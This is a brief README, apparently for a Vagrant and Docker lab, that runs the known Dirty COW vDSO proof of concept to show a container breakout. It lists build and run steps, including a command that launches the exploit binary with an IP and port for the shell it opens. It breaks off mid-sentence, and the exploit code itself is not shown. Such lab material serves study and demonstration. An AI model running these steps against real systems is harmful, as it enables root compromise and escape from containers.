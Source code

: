 # dirtycow-docker-vdso_2

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.
This exploit is from  https://github.com/gebl/dirtycow-docker-vdso.git'}

This exploit is similar that dirtycow-docker-vdso_1 with exception no seperate user is created 

To execute:
``
	vagrant up
	
	vagrant putty
``

Once inside the VM run to launch the Docker Container:
``
	sudo docker-compose run dirtycow /bin/bash" 
``

Inside the Docker container run:
``
    cd /dirtycow-vdso
     make
     ./0xdeadbeef 172.18.0.2:1234" 
``      

Wait a few minutes for the exploit to launch 

Show the breakout of the container by running 

``
ifconfig
``	

Succesful breakout should list

	
  
